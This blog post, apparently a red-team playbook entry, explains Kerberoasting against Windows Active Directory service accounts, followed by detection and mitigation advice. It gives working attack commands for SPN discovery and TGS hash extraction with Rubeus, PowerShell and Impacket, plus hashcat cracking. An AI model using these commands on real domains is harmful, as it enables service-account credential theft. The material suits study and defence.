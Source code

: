 ```yaml
---
title: 'Kerberoasting'
date: 2025-09-23
permalink: /posts/kerberoasting/
tags:
  - red team playbook
---
```


Kerberoasting targets to attack Windows Active Directory's service accounts.

| Tactic (MITRE ATT&CK) | Technique (MITRE ATT&CK)  | Objective                                          | Permissions Required          | Common Tools              |
| --------------------- | ------------------------- | -------------------------------------------------- | ----------------------------- | ------------------------- |
| Credential Access     | T1558.003 - Kerberoasting | Getting service account's hash, and brute force it | Any Authenticated Domain User | Rubeus, Impacket, Hashcat |

---

## 1. Principle

Properties of kerberos authentication:

1.  **SPN (Service Principal Name):** In AD, there is an unique identifier (SPN) for MSSQL/HTTP/Service on a network that uses Kerberos authentication. It links a service to a specific user or computer account. For example: `MSSQLSvc/sqlserver.corp.local:1433`is a SPN. It is for telling AD that a machine`sqlserver.corp.local`is running port 1433 which is for MSSQL (service).
2.  **Kerberos TGS:** A user with a valid Ticket Granting Ticket (TGT) can request a Ticket Granting Service (TGS) ticket for a specific service. 
3.  **Vulnerability:** Any authenticated user can request a TGS ticket, and the Key Distribution Center (KDC) doesn't validate if the user has permissions to access the service before issuing the ticket.
4.  **Attack Process:**
    - **Discovery:** Any domain user can query the SPN account in domain
    - **Request:** Attackers can pretend they want to access the specific server and send a TGS request to KDC
    - **Gain:** KDC would not verify if they are authorized to access the specific server and will accept the request if they are a valid user in the domain. Then, the KDC will send back the TGS, which is encrypted with the password hash of the service account associated with the requested SPN.
    - **Crack:** When the attacker get the TGS, they can export it and use hashcat to brute force.

---



## 2. Attack Steps & Commands

### Method 1: Using Rubeus (in Windows target machine)

**Step 1: Discover SPN's user**

```powershell
.\Rubeus.exe kerberoast /stats /nowrap
```

*   This command will list out all "Kerberoastable" information

(Optional) If you can only use powershell

```
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)(!samAccountName=krbtgt)(!userAccountControl:1.2.840.113556.1.4.803:=2))").FindAll() | ForEach-Object {
    @{
        SamAccountName = $_.Properties.samaccountname[0];
        ServicePrincipalName = $_.Properties.serviceprincipalname
    }
}
```

**Step 2: Request and Export TGS ticket**

```powershell
# Dump all the service account's TGS hash and save it as txt
.\Rubeus.exe kerberoast /outfile:hashes.txt
```

* Sample of `hashes.txt`：

  ```
  $krb5tgs$23$*service_account$CORP.LOCAL$MSSQLSvc/sql.corp.local*$...[hash]...
  ```

**Step 3: Cracking**

*   Brute force the `hashes.txt` with Hashcat

```bash
hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt```
*   `-m 13100` is the format of kerberos 5 TGS-REP etype 23
```



# Method 2: Use Impacket in Linux of MacOS (Attack Machine)

If the attacker in the same network of domain

*   `GetUserSPNs.py` can do the same work (Discovery and Request)
    
    

```
-request: Request TGS
-dc-ip: Domain Controller's IP
corp.local/low_priv_user:password : use DC user to authenicate

python3 GetUserSPNs.py -request -dc-ip 192.168.1.10 corp.local/low_priv_user:Password123 -outputfile hashes.txt
```

**Step 3: Cracking**

*   Same as Rubeus

```bash
hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt
```



## 3. Defense & Mitigation

### Detection

1.  **Monitoring ID 4769:**
    *   event ID should be: `A Kerberos service ticket was requested`. A normal user should not be requesting a lot of TGS ticket. It should be detected as suspicious.
    *   Becareful that the `Service Name` is not  `krbtgt` and the `Ticket Encryption Type` should be `0x17` (RC4-HMAC)。It is easy to crack if using RC4 to encrypt.

2.  **Packet Analysis:**
    *   Some open source tools such as Zeek/Suricata. These ype of NIDS can monitor Kerberos traffic (Port 88)

### Prevention

1.  **Complex Password:**
    *   Follow strong password policy, using a complex password.
    *   **The best practice:** Use **Group Managed Service Accounts (gMSA)** [Kerberoasting-And-CyberAttack](https://petri.com/kerberoasting-ad-cyberattacks/)
        *   The password from gMSA is managed by Windows. It will be rotated and strong. 
2.  **Principle of Least Privilege:**
    - Ensure that only real service account has the permission of SPN
    - Ensure that no high permission user such as domain admin to use as service account